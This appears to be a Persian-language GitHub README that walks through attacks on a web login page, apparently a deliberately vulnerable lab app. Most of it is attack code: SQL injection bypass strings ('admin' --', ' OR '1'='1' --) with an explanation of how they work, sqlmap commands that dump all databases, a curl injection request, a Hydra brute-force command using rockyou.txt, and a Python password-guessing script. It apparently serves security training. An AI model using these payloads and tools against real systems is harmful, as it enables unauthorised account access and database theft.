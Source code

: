 1. login with website

```
admin' --
123
```

```
' OR '1'='1' --
123
```

<p dir="rtl" align="justify">
  <ul dir="rtl">
  <li>' : اولین تک کوتیشن، این کار باعث بسته شدن رشته ورودی username می‌شود.</li>
	<li>-- : یک کامنت در SQL است که بقیه کوئری را نادیده می‌گیرد</li>
	<li>نتیجه این می‌شود که شرط WHERE همیشه درست خواهد بود و کوئری اولین کاربر از جدول را برمی‌گرداند (معمولاً کاربر مدیر).</li>
	<li>OR '1'='1' : یک شرط همیشه درست اضافه می‌کند (1 همیشه برابر با 1 است)</li>
  </ul>
</p>


```sql
SELECT * FROM auth_user  WHERE username='{username}' AND password='{password}'
```
```sql
SELECT * FROM vuln_app_user WHERE username='' OR '1'='1' -- ' AND password='...'
```

<p dir="rtl" align="justify">نتیجه نهایی:</p>

```sql
SELECT * FROM auth_user WHERE username='' OR '1'='1'
```

# 2. sqlmap

<p dir="rtl" align="justify">1. نصب sqlmap (اگر وجود ندارد):</p>

```
sudo apt update && sudo apt install sqlmap
```

<p dir="rtl" align="justify">2. اجرای حمله به صفحه لاگین:</p>

```
sqlmap -u "http://IP-سرور-قربانی/login/" --data="username=admin&password=123" --method=POST --risk=3 --level=5 --dbs
```

<p dir="rtl" align="justify">
  <ul dir="rtl">
    	<li>--data: پارامترهای POST ارسالی.</li>
	<li>--dbs: لیست پایگاه‌های داده را نمایش می‌دهد.</li>
  </ul>
</p>

<p dir="rtl" align="justify">برای حمله پیشرفته‌تر:</p>

```
sqlmap -u "http://IP-سرور-قربانی/login/" --data="username=admin&password=123" --method=POST --dump-all
```

# 3. curl

```
curl -X POST "http://IP-سرور-قربانی/login/" -d "username=' OR '1'='1' --&password=123"
```


# 4. Brute Force

<p dir="rtl" align="justify">1. با ابزارهای خودکار (مثل Hydra)</p>

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt victim-ip http-post-form "/login:username=^USER^&password=^PASS^:F=login_failed.html"
```

<p dir="rtl" align="justify">
  <ul dir="rtl">
    <li>-l admin: نام کاربری هدف.</li>
	<li>-P rockyou.txt: لیست پسوردهای معروف.</li>
	<li>http-post-form: نوع حمله (POST).</li>
	<li>F=login_failed.html: شرط تشخیص شکست (اگر این صفحه نمایش داده شد، پسورد اشتباه است).</li>
  </ul>
</p>


<p dir="rtl" align="justify">2. با یک اسکریپت پایتون ساده (اگر می‌خواهید خودتان بنویسید)</p>

```python
import requests

target_url = "http://victim-ip/login/"
username = "admin"
passwords = ["123456", "password", "admin123", "123"]  # یا از یک فایل بخوانید

for password in passwords:
    data = {"username": username, "password": password}
    response = requests.post(target_url, data=data)
    if "login_success" in response.text:
        print(f"✅ پسورد پیدا شد: {password}")
        break
    else:
        print(f"❌ امتحان شد: {password}")
```
